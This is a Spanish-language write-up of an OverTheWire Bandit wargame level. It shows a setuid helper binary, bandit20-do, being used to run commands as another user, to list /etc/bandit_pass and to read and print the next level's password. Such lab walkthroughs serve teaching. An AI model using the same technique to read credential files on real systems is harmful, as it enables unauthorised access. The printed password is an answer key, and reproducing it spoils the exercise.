 ```
bandit19@bandit:~$ ls -la
total 28
drwxr-xr-x  2 root     root     4096 May  7  2020 .
drwxr-xr-x 41 root     root     4096 May  7  2020 ..
-rwsr-x---  1 bandit20 bandit19 7296 May  7  2020 bandit20-do
-rw-r--r--  1 root     root      220 May 15  2017 .bash_logout
-rw-r--r--  1 root     root     3526 May 15  2017 .bashrc
-rw-r--r--  1 root     root      675 May 15  2017 .profile
```

En este caso, el propietario es badit20 y el grupo es bandit19, esto con '-rwsr-x—' significa que el usuario bandit19 puede ejecutar el binario, pero el binario se ejecuta como usuario bandit20.

Ejecutar el binario dice que simplemente ejecuta otro comando como otro usuario (como ya se explicó, este usuario es bandit20). Esto significa que podemos acceder al archivo de contraseñas de los usuarios de bandit20, que solo puede leer el usuario bandit20.

El archivo nos dice que nos permite ejecutar un comando como otro usuario. Veamos un ejemplo de ejecución de un comando como otro usuario usando el comando id
```
bandit19@bandit:~$ id
uid=11019(bandit19) gid=11019(bandit19) groups=11019(bandit19)
bandit19@bandit:~$ ./bandit20-do id
uid=11019(bandit19) gid=11019(bandit19) euid=11020(bandit20) groups=11019(bandit19)
```

Observamos que cuando usamos el archivo binario, también se nos asigna el uid para bandit20, lo que significa que podemos ejecutar comandos como si fuéramos bandit20

Ahora que sabemos que podemos ejecutar comandos como bandit20, usemos el binario para acceder a la contraseña del usuario bandit20

```
bandit19@bandit:~$ ./bandit20-do 
Run a command as another user.
  Example: ./bandit20-do id
bandit19@bandit:~$ ./bandit20-do ls /etc/bandit_pass
bandit0   bandit12  bandit16  bandit2   bandit23  bandit27  bandit30  bandit4  bandit8
bandit1   bandit13  bandit17  bandit20  bandit24  bandit28  bandit31  bandit5  bandit9
bandit10  bandit14  bandit18  bandit21  bandit25  bandit29  bandit32  bandit6
bandit11  bandit15  bandit19  bandit22  bandit26  bandit3   bandit33  bandit7
bandit19@bandit:~$ ./bandit20-do cat /etc/bandit_pass/bandit20
GbKksEFF4yrVs6il55v6gwY5aVje5f0j
```

### Contraseña encontrada
* GbKksEFF4yrVs6il55v6gwY5aVje5f0j
